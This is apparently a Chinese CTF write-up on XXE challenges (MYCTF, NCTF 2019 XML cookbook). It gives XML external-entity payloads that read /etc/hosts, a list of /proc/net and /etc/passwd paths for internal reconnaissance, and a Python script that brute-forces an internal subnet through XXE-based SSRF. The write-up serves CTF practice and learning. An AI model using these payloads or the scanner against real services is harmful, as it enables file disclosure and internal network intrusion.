








##### [MYCTF]normal_XXE

[题目链接](http://120.24.251.64:3355/)

- 通过测试发现回显部位为 \<username>\</username> 。

- payload：

  ```xml-dtd
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE user [
  <!ENTITY admin SYSTEM "file:///etc/hosts">
  ]>
  <user><username>
  &admin;
  </username><password>1</password></user>
  ```

  回显：

  

- 尝试访问 119.119.1.18，无回显。

  ```xml-dtd
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE user [
  <!ENTITY admin SYSTEM "http://119.119.1.18">
  ]>
  <user><username>
  &admin;
  </username><password>1</password></user>
  ```

- ip 爆破：

  

  

  

##### [NCTF 2019]Fake XML cookbook

[NSS](https://www.ctfer.vip/problem/1256)

- 通过测试发现回显部位为 \<username>\</username> 。

- payload：

  ```xml-dtd
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE user [
  <!ENTITY admin SYSTEM "file:///etc/hosts">
  ]>
  <user><username>
  &admin;
  </username><password>1</password></user>
  ```

##### [NCTF 2019]True XML cookbook

[NSS](https://www.ctfer.vip/problem/1257)

- 通过测试发现回显部位为 \<username>\</username> 。

- payload：

  ```xml-dtd
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE user [
  <!ENTITY admin SYSTEM "file:///etc/hosts">
  ]>
  <user><username>
  &admin;
  </username><password>1</password></user>
  ```

  回显：

  

- 尝试访问回显的两个 ip，无回显。

- ip 爆破：

  

##### [NCTF 2019]True XML cookbook

[BUU](https://buuoj.cn/challenges#[NCTF2019]True%20XML%20cookbook)

###### 前置知识

- XXE 内网探测：

  ```dtd
  file:///etc/hosts
  
  file:///proc/net/arp
  
  file:///proc/net/tcp
  
  file:///proc/net/udp
  
  file:///proc/net/dev
  
  file:///proc/net/fib_trie
  ```

- XXE 读取密码：

  ```dtd
  file:///etc/passwd
  ```

###### 题解

- 通过测试发现回显部位为 \<username>\</username> 。

- 读取 `/etc/hosts` ，回显无存活 ip 。

- 依次使用其他内网探测命令，仅以下两个回显有存活 ip：

  `file:///proc/net/arp`

  

  `file:///proc/net/fib_trie`

  

- 对以上回显 ip 进行访问，仅 10.244.80.36 访问成功，其余均长时间无 response。

- 针对 10.244.80.36 爆破，但是 burp 跑得太慢了。

- 可用脚本来跑，参考 HNUST 大佬 Article_kelp 的 exp：

  ```python
  import requests as res
  url="http://0c8016ed-ef08-4127-ad08-37c2bcce842e.node4.buuoj.cn:81/doLogin.php"
  rawPayload='<?xml version="1.0"?>'\
           '<!DOCTYPE user ['\
           '<!ENTITY payload1 SYSTEM "http://10.244.80.{}">'\
           ']>'\
           '<user>'\
           '<username>'\
           '&payload1;'\
           '</username>'\
           '<password>'\
           '23'\
           '</password>'\
           '</user>'
  for i in range(1,256):
      payload=rawPayload.format(i)
      #payload=rawPayload
      print(str("#{} =>").format(i),end='')
      try:
          resp=res.post(url,data=payload,timeout=0.3)
      except:
          continue
      else:
          print(resp.text,end='')
      finally:
          print('')
  
  ```

  

